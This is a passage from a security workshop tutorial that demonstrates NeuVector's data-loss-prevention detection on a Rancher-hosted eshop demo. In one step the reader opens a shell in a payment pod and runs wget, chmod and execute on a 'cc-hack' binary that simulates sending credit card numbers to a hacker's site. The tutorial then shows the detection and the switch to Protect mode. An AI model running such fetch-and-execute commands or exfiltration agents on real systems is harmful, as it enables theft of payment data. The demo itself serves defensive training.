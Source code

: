 3. Now let's test the filter. For this we will move the Group we created into Monitor mode. 

In the Group, filter by "eshop", check all the pods in namespace eshop-demo. Click Switch Mode button. 

Select "Monitor" mode, and use "Basic". Click Apply.

![Group-eshop-demo-switch-to-monitor-pg1](../images/Group-eshop-demo-switch-to-monitor-pg1.PNG)

Switching to Monitor Mode.

![Group-eshop-demo-switch-to-monitor-pg2](../images/Group-eshop-demo-switch-to-monitor-pg2.PNG)

![Group-eshop-demo-switch-to-monitor-success-pg3](../images/Group-eshop-demo-switch-to-monitor-success-pg3.PNG)

4. We let's assume we have already an intruder inside our network and we are not aware of it. He will be stealing our credit care data.  For next step, we will switch to Rancher UI. 

Switch to Rancher UI

Cluster 2 > Workload > Pods > Filter `payment`> right click on 3 vertical dots > Execute Shell

![RancherUI-payment-service-execute-shall-pg1](../images/RancherUI-payment-service-execute-shall-pg1.PNG)

Copy and paste the code block on the container shell. This download the cc-hack agent into the pod, got executed. A customer's credit card number will then be sent to the hacker's site. And the hacker site will respond the same credit card number back to the agent.

`wget https://rancherworkshop.blob.core.windows.net/demoapp/cc-hack`
`chmod +x cc-hack`
`./cc-hack`

![RancherUI-payment-service-execute-shell-pg2](../images/RancherUI-payment-service-execute-shell-pg2-1669654522523-29-1669654723600-31.PNG)

We can see the code has execute & got credit card data which he can send to external world. 

5. Switch back to NeuVector UI to see if we are getting any Security Risk Event 

   NeuVector > Notification > Security Events > Filter `DLP`. You should notice the "card violation rule..."

![NeuVector-Notification-DLP-Event-pg1](../images/NeuVector-Notification-DLP-Event-pg1.PNG)

6. To inspect the payload, you can click on `Show Packet`. You can even download the packet capture by clicking on `DOWNLOAD PCAP`

![NeuVector-Notification-DLP-Event-pg2](../images/NeuVector-Notification-DLP-Event-pg2-1669655005102-37.PNG)



7. Now let protect the application so this does not happen again. 

NeuVector > Policy > Groups > Filter `eshop`> Select All > Switch Mode >  Select "Protect" mode, and use "Basic" > Click Apply.

![Group-eshop-demo-switch-to-protect-pg1](../images/Group-eshop-demo-switch-to-protect-pg1.PNG)

![Group-eshop-demo-switch-to-protect-pg2](../images/Group-eshop-demo-switch-to-protect-pg2.PNG)
